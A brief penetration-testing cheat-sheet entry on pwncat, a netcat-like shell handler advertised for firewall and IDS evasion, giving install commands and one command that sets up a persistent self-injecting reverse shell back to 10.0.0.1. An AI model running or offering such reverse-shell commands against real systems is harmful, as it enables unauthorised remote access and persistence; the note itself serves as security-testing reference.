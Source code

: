 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://pwncat.org/
### Pwncat

`pwncat` is a sophisticated bind and reverse shell handler with many features as well as a drop-in replacement or compatible complement to `netcat`, `ncat` or `socat`.

> pwncat is like netcat on steroids with Firewall, IDS/IPS evasion, bind and reverse shell, self-injecting shell and forwarding magic - and its fully scriptable with Python ([PSE](https://github.com/cytopia/pwncat/tree/master/pse))

**Install pwncat**

```bash
# Kali Linux
sudo apt install pwncat

```

```bash
# pip
python3 -m pip install pwncat
```

**Setup a listener with unbreakable shell**
This will search for python on host and make a persistence shell back to you.

```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```
